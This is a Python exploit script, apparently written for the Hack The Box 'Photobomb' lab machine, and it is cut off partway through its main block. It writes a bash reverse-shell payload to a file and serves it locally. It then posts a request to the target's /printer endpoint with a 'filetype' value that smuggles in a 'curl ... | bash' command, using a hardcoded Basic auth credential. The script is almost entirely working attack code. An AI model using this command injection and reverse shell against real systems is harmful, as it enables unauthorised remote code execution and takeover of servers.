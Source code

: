 ```python
#!/usr/bin/python3

import signal,sys,requests,threading,time,http.server,socketserver,os
from pwn import *

## Variables globales
lhost=''
lport = ''

## Ctrl + C
def def_handler(sig,frame):
	print("[!] Saliendo...")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def runHTTPServer():
    PORT = 8081
    Handler = http.server.SimpleHTTPRequestHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    httpd.serve_forever()

def indexcreate():
    f = open("index.html", "w")
    f.write(f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1")
    f.close()

def makeRequest():

	url = "http://photobomb.htb/printer"

	post_data = {
		"photo":"voicu-apostol-MWER49YaD-M-unsplash.jpg",
		"filetype":f"jpg;$(curl {lhost}:8081 | bash)",
		"dimensions":"3000x2000"
	}

	headers = {
		"Authorization": "Basic cEgwdDA6YjBNYiE="

	}

	requests.post(url, headers=headers, data=post_data)

if __name__ == '__main__':

	if len(sys.argv) < 3:
		print ("\nIntroduce tu IP local y puerto")

	else:
		lhost= sys.argv[1]
		lport = sys.argv[2]
		p1 = log.progress("Photobomb autopwn to root user")
		p1.status("Obteniendo shell como wizard")
		time.sleep(2)

		indexcreate()

		try:
			threading.Thread(target=runHTTPServer, args=()).start()

			try:
				threading.Thread(target=makeRequest, args=()).start()
```